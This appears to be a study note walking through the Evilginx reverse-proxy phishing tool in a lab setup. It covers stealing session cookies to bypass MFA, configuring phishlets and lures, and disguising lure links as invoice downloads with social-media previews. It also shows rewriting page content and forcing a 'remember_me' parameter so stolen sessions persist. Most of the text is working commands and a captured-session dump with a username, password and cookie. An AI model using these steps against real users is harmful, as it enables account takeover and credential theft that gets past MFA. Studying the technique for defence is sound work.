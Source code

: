**MFA and Web Security**

If the adversary learns your password the adversary will not know how to obtain the MFA token. This is game over for except in the case of how web works.
The session token needs to be stored in your web browser and will be embedded in every request.
The adversary can steal your web token and provide it to the web server.
The adversary can steal your token using reverse proxy simulation software such as evilginx.

**Stealing the token**

Cookies & local storage are ways to store session tokens. Evilginx can handle both.
Reverse proxy phishing is a one-to-one copy of the real website, proxied dynamically in real time from the real website server.
Phishing server is the middle-man server and will proxy outbound and inbound requests from victim and intended website.
The encrypted connection is made from the user to the phishing server and the phishing server can subsequently decrypt and analyze all traffic from the user.
if the user has mfa enabled on the account, they will be presented with a legitimate MFA challenge & the user will be asked for an MFA token.
EvilGinx will capture the session token once the victim signs into the website & the adversary will have access to the hijacked account.

**Preparing the Environment**
1) Create a new profile user in chrome, comes in handy when we create our own phishlets and we want to delete our cookies for testing. Will be doing it often.
2) setup extensions, edit this cookie, localStorageManager. setting up settings -> privacy bookmark.

**Intro** 

help info
help.evilginx.com

go to the webpage you're trying to create a phishlet for
open source inspector -> go to network tab -> click preserve log to ensure we can capture all of our requests.
login to the website.
create yaml phishlet using example as template in the evilginx folder visual studio code can be used or any ide.
Best practice to leave the TLD in the domain parameter, but use the subdomain in the phish_sub & orig_sub parameter.

setup phishlets and server configuration in evilginx
```
config domain fake.com
```

```
config ipv4 127.0.0.1
```

```
phishlets hostname akira lab.evilginx.fake.com
```

```
phishlets enable akira
```

setup hostsfile to point to our webserver.
```
phishlets get-hosts akira
```
127.0.0.1 akira.lab.evilginx.fake.com

create a lure 
```
lures create akira
```

obtain lure url
```
lures get-url 0
```
https://akira.lab.evilginx.fake.com/IRMzRHCK

session cookies will automatically be ignored by evilginx. You need to explicitly modify your phishlet file to have it capture session cookies. (cookies that do not expire and have the session keyword) put the 'always' keyword after the cookie you want to grab if it's ignored i.e:
```
'token:always'
```

Then when you steal the session cookie, you will use the edit-cookie import feature and copy / paste the cookie string from the session listing in evil ginx. Then browse to the intended web application.
```
sessions 4
```

```
 id           : 4
 phishlet     : akira
 username     : brendan@crownehill.com
 password     : 9VC30o82pdSH764M
 tokens       : captured
 landing url  : https://akira.lab.evilginx.fake.com/IRMzRHCK
 user-agent   : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
 remote ip    : 127.0.0.1
 create time  : 2024-05-30 10:58
 update time  : 2024-05-30 10:59

[ cookies ]
[{"path":"/","domain":"akira.lab.evilginx.com","expirationDate":1748627972,"value":"e0d2e227-517b-4cb6-ac3f-e491d2e87ab7","name":"token","httpOnly":true,"hostOnly":true}]
```

editing lures:
```
lures edit 0 path /download/invoice/00556/
```
```
lures edit 0 hostname this.is.a.real.website.fake.com
```
```
lures edit  0 redirect_url https://www.dropbox.com/files/username/invoice1.pdf
```
editing the open graph preview image / title for if you want to send your URL through social media apps such as discord, linkedIn, Facebook, etc.
```
lures edit 0 og_image 'https://imgur.com/123123'
```
```
og_title = 'Invoice #0045'
```

Can add custom parameters to lure url in order to prefill some data about the phished user.
```
lures get-url 0 email=brendan@crownehill.com name="Brendan Ortiz"
```

**Advanced Phishing**

- Replacing Content
you can replace content on the fly with evilginx when you're cloning websites by specifying the content in the subfilter section of the yaml file. An example of replacing the login button string text from " Login " to " Get Phished " is shown below:
```
 {triggers_on: 'akira.lab.evilginx.com', orig_sub: 'akira', domain: 'lab.evilginx.com', search: '" Login "', replace: '" Get Phished "', mimes: ['text/javascript']}
```
 To do this you need to identify the content you want to manipulate, then identify where the source is. In the example, the source of the login button was generated through JavaScript, so the target we need to modify in the JavaScript file the browser loads when browsing to the phish server. Then we need to identify a good regex string to use in the search parameter. Set the replace string, then finally set the mime type (can be identified through a web request / response).

- Forcing POST parameters
With forcing parameters you can modify part of a request at the behest of the victim user using evilginx. The example given is to modify the user's request to check the "Stay logged in" button so the session does not expire after 15 minutes. For documentation check https://help.evilginx.com/docs/phishlet-format#force_post

```
force_post:
  path: '/api/v1/auth/login' #path to the login page.
  search:
  - {key: 'email', search: '(.*)'} #search for a request with this params
  - {key: 'password', search: '(.*)'}
  force:
  - {key: 'remember_me', value: '1'} #force this value in the request.
  type: 'post'
```
